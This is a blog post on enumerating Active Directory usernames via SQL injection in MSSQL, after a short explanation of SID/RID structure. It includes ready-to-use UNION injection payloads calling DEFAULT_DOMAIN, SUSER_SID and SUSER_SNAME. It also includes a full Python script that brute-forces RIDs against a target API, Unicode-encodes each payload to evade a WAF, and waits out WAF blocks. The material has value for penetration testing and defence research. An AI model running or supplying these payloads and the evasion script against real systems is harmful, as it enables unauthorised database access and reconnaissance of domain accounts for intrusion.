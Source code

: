 [back](/)

### Username enumeration via SQL injection

Each account or group in the Active Directory has its own security identifier or (SID), which also includes a relative identifier (RID).

What are they needed for ? Windows operating system differentiates the rights in the Active Directory domain of a particular user, thanks to these identifiers, this is extremely important.

![Image](/img/username_enum-from-sqli/3.png)

Imagine that you are migrating from one domain to another, for example from **source.local** to **destination.local**, then the user's SID and RID will be changed. How exactly to preserve the rights of the user who is associated with security groups and a specific SID/RID ?

Naturally it will be changed during domain migration. The fact is that the access token is generated based on all previously created identifiers, including those that were previously assigned to the user. This is how the user's access token to objects is formed.

The SID/RID consists of several components shown in the diagram:

![Image](/img/username_enum-from-sqli/5.jpg)

To find out the SID in a specific domain it is enough to execute the DEFAULT_DOMAIN () MSSQL query, and than using the resulting identifier mask, you can enumerate usernames. Given this access model there is an interesting opportunity for an attacker who found an injection in the MSSQL database.

```
123' union select 1,2,3,4, DEFAULT_DOMAIN() as mydomain -- 1
```

![Image](/img/username_enum-from-sqli/11.png)

Using the SUSER_SID and SUSER_SNAME queries, it is possible to enumerate usernames in the domain:

```
123' union select 1,2,3,4,(select (select stuff(upper(sys.fn_varbintohexstr((SELECT SUSER_SID('YOURDOMAIN\Domain Admins')))), 1, 2, ''))) -- 1
123' union select 1,2,3,4,SUSER_SNAME(0x0105000000000005150000001C00D1BCD181F1492BDFC236F4010000) -- 1
```

![Image](/img/username_enum-from-sqli/6.png)

![Image](/img/username_enum-from-sqli/7.png)

Knowing the structure of the SID and the process of generating RID, you can select 8 bytes related to RID and get a list of usernames in the AD. I wrote a small script to help you do this. It contains WAF bypass elements associated with the waiting time. It also converts each payload character to Unicode, which indicates a non-standard injection:

```
#!/usr/bin/python3

import requests
import time
from requests.exceptions import HTTPError
from termcolor import colored

def convert_to_unicode(char):
 code = hex(ord(str(char)))[2:]
 prefix = "0" * (4 - len(code))
 return f'\\u{prefix}{code}'

def sqli_post(rid):
 val = "123' union select 1,2,3,4,SUSER_SNAME(0x0105000000000005150000001C00D1BCD181F1492BDFC236"+r+") -- 1"
 res = ""
 for el in val:
  res += convert_to_unicode(el)
 response = requests.post(url, data='{"name":"'+res+'"}', headers = {"Content-Type":"application/json;charset=utf-8"})
 if "403 - Forbidden: Access is denied." in response.text:
  print(colored("[-] Sleeping and WAF cooldown", "red"))
  time.sleep(60)
 if "\\" in response.text:   
  print(colored("[+]"+response.text+"\r\nRID: "+r,"green"))

for url in ['http://10.10.10.10/api/getSOMETHING']:
 try:
  for i in range(500,4000):
   q = hex(i)[2:]
   w = q[1:]
   e = w+"0"+q[:1]
   r = e+"0"*(8-len(e))
   sqli_post(r)

  for i in range(6001,6010):
   q = hex(i)[2:]
   w = q[2:]
   e = q[:2]
   r = w+e+"0"*(8-len(q))
   sqli_post(r)

 except HTTPError as http_err:
  print(f'HTTP error occurred: {http_err}')
 except Exception as err:
  print(f'Other error occurred: {err}')
 else:
  
  print('Success!\r\n')
```

The result will please you =)

![Image](/img/username_enum-from-sqli/12.png)

![Image](/img/username_enum-from-sqli/2.png)

To get a positive enumeration result, start with a sequential enumeration using these queries:

```
123' union select 1,2,3,4,5 -- 1
123' union select 1,2,3,4,@@version -- 1
123' union select 1,2,3,4, DEFAULT_DOMAIN() as mydomain -- 1
123' union select 1,2,3,4,(select (select stuff(upper(sys.fn_varbintohexstr((SELECT SUSER_SID('YOURDOMAIN\Domain Admins')))), 1, 2, ''))) -- 1
```

For detailed information about the RID pool, you can use the following command:

```
dcdiag / test: ridmanager / v
```

![Image](/img/username_enum-from-sqli/9.png)

It will show the current status of the RID pool, the maximum possible pool, and the next RID that will be assigned to the domain user.

This method is especially effective if you do not have access to the remote call procedure through the **rpcclient** as well as a valid account in the domain:

![Image](/img/username_enum-from-sqli/10.png)

These articles will help you explore the issue in more detail:

[enumerating-domain-accounts](https://blog.netspi.com/hacking-sql-server-procedures-part-4-enumerating-domain-accounts/)

[how-to-check-the-rid-pool-in-active-directory](https://www.windowstechno.com/how-to-check-the-rid-pool-in-active-directory/)

[varbinary-to-literal-varchar-copy-in-sql-server-2005](https://stackoverflow.com/questions/6424328/varbinary-to-literal-varchar-copy-in-sql-server-2005)

[security-identifiers](https://docs.microsoft.com/ru-ru/windows/security/identity-protection/access-control/security-identifiers)

<div id="disqus_thread"></div>
<script>
(function() { // DON'T EDIT BELOW THIS LINE
var d = document, s = d.createElement('script');
s.src = 'https://hackitfaster-hopto-org.disqus.com/embed.js';
s.setAttribute('data-timestamp', +new Date());
(d.head || d.body).appendChild(s);
})();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript">comments powered by Disqus.</a></noscript>

[back](/)



